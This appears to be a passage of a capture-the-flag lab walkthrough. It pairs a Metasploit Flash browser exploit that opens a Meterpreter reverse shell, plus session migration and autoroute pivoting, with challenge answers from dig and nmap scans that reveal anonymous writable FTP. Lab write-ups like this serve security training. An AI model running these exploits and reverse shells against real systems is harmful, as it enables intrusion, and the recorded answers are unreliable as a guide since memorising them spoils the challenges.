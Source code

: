 Pro Tip 1: We will be doing quite a bit of work in this network and will need some help. If you haven't already, help your teammates gain access to the network and divide/conquer on the machines. We suggest adding multiple iframes, one pointing to each of your teammate's tap0 IP address then have them run their own exploit to get shells.

use exploit/multi/browser/adobe_flash_hacking_team_uafset SRVPORT 80set URIPATH /set payload windows/meterpreter/reverse_tcpset LHOST <YOUR tap0 IP Address>runmeterpreter> psmeterpreter> migrate


Pro Tip 2: You will continue to exploit the browser and get additional shells each time the victim browses to the web page. You can turn off exploitation by killing the task with kill -K
Pro Tip 3: When exploiting a user process like a web browser, you will lose your session if they close it. You can migrate your meterpreter to a more stable process.
Pro Tip 4: To pivot and route to IPs in this network you need to run autoroute in your session. Metasploit Pivoting Guide
Pro Tip 5: Lots of future hints can be saved by reviewing the read ahead occasionally when stuck.

```
meterpreter > run post/windows/manage/migrate
meterpreter > run post/multi/manage/autoroute
```

==KPASRF Challenges==

===KPASRF 1===

The IP Address of kpasrf.dprk.ctf is 192.168.51.66

dig @192.168.51.1 kpasrf.dprk.ctf

===KPASRF 2===
How many TCP ports are open on this IP address?

2

nmap 192.168.51.66

===KPASRF 3===
Enumerate the FTP service for vulnerabilities.

What is a valid username that can upload files to the server?

anonymous

<pre>nmap -sV -sC 192.168.51.66 -p 21
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-23 10:02 EDT
Nmap scan report for 192.168.51.66
Host is up (0.020s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx   1 owner    group              49 Apr 27  9:49 NOTICE.txt [NSE: writeable]
| ftp-syst: 
|_  SYST: Windows_NT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
